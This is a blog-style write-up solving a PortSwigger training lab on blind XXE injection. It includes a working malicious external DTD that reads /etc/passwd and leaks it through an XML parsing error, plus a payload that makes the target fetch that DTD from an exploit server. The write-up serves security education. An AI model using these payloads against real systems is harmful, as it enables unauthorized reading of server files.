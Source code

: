 # Exploiting blind XXE to retrieve data via error messages | Dec 25, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages), you'll learn: Exploiting blind XXE to retrieve data via error messages! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225063634.png)

In the previous labs, we found that **there is an XXE injection vulnerability in the "Check stock" feature, which parses XML input.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225063710.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225063721.png)

**Original XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225063803.png)

**Invalid XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>a</productId>
    <storeId>1</storeId>
</stockCheck>
```

As you can see, it **does not display the result**, which indicates that this is a **blind XXE injection**.

To exploit that, we can trigger an XML parsing error, and the error message contains the sensitive data, like `/etc/passwd`.

**In the lab, we have an exploit server, which allows us to host a malicious external DTD:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225064200.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225064216.png)

**Our malicious external DTD:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///errorpls/%file;'>">
%eval;
%error;
```

**Which will:**

- Define an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Define an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `error`. The `error` entity will be evaluated by loading a nonexistent file whose name contains the value of the `file` entity.
- Use the `eval` entity, which causes the dynamic declaration of the `error` entity to be performed.
- Use the `error` entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225064740.png)

**Next, to let the target server fetches our malicious external DTD, we can send the following XXE payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % xxe SYSTEM "https://exploit-0a23009a04971e0cc67c8e9a01d90009.exploit-server.net/exploit.dtd"> %xxe;]>
<stockCheck>
    <productId>a</productId>
    <storeId>1</storeId>
</stockCheck>
```

**Which will:**

- Define an an XML parameter entity called `xxe`, which fetches our exploit server's malicious DTD and interpret it inline

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-6/images/Pasted%20image%2020221225064923.png)

We did it!

# What we've learned:

1. Exploiting blind XXE to retrieve data via error messages